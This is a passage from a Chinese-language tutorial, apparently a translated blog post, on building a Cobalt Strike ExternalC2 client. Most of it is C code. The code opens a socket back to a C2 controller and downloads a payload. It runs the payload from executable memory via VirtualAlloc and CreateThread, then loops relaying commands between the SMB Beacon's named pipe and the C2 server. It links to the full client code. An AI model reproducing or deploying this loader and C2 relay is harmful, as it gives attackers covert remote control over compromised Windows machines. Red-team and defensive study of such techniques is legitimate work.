 ```
// Create a connection back to our C2 controller
SOCKET c2socket = createC2Socket("192.168.1.65", 8081);
payloadData = recvData(c2socket, &amp;payloadLen);
```

在这个案例中，我们可以使用Win32的`VirtualAlloc`函数来分配一段可执行的内存空间，使用`CreateThread`来执行代码：

```
HANDLE threadHandle;
DWORD threadId = 0;

char *alloc = (char *)VirtualAlloc(NULL, len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (alloc == NULL)
    return;

memcpy(alloc, payload, len);

threadHandle = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, &amp;threadId);
```

一旦SMB Beacon启动并处于运行状态，我们需要连接到beacon的命名管道，因此我们不断尝试连接至我们的`\.pipexpntest`管道（请注意：前面我们已经通过选项信息向Cobalt Strike传递了管道名称，SMB Beacon会使用这个名称来接收命令）：

```
// Loop until the pipe is up and ready to use
while (beaconPipe == INVALID_HANDLE_VALUE) `{`
        // Create our IPC pipe for talking to the C2 beacon
        Sleep(500);
        beaconPipe = connectBeaconPipe("\\.\pipe\xpntest");
`}`
```

连接成功后，我们可以进入数据收发循环处理流程：

```
while (true) `{`
    // Start the pipe dance
    payloadData = recvFromBeacon(beaconPipe, &amp;payloadLen);
    if (payloadLen == 0) break;

    sendData(c2socket, payloadData, payloadLen);
    free(payloadData);

    payloadData = recvData(c2socket, &amp;payloadLen);
    if (payloadLen == 0) break;

    sendToBeacon(beaconPipe, payloadData, payloadLen);
    free(payloadData);
`}`
```

基本步骤就这样，我们已经了解了创建ExternalC2服务的基本要素，大家可以参考[此处](https://gist.github.com/xpn/08cf7001780020bb60c5c773cec5f839)获取完整的Client代码。

现在我们可以来看看更加有趣的东西。

